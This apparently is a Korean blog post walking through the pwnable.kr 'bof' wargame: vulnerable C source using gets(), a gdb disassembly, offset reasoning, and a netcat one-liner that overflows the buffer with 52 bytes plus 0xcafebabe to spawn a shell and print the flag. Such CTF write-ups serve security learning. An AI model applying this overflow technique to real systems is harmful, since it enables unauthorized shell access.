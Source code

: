 ```yaml
---
layout: post
title: Pwnable.kr bof
categories: [Wargame]
tags: [Pwnable.kr]
comments: true
---
```


bof문제의 파일을 읽어보면 다음과 같다.

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
{% endhighlight %}

func함수에서 `gets`의 취약점을 이용하여 overflow를 수행하는 문제이다. 이 프로그램을 파악해 보면 다음과 같다.

```
gdb-peda$ pdisas func
Dump of assembler code for function func:
   0x0000062c <+0>:    push   ebp
   0x0000062d <+1>:    mov    ebp,esp
   0x0000062f <+3>:    sub    esp,0x48
   0x00000632 <+6>:    mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c ; "overflow me : "
   0x00000644 <+24>:    call   printf
   0x00000649 <+29>:    lea    eax,[ebp-0x2c] ; char overflowme[32]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   gets
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
 ... 
```

먼저 `call printf`를 수행한다. 그 후 `gets`를 호출한다. 이 때 `ebp - 0x2c`의 위치에 **overflowme**라는 배열이 들어있음을 확인할 수 있다.

그 후 `ebp + 0x8`의 값과 0xcafebabe를 비교한다. overflow시켜야할 총 데이터는 0x2c + 0x8의 값을 덮어쓰고, 그 후에 원하는 데이터를 덮어야 한다.

값은 **리틀엔디안**이므로 반대로 넣어주면 된다.

{% highlight bash %}
ubuntu@ubuntu:~$ (python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
super.pl
cat flag
daddy, I just pwned a buFFer :)
{% endhighlight %}
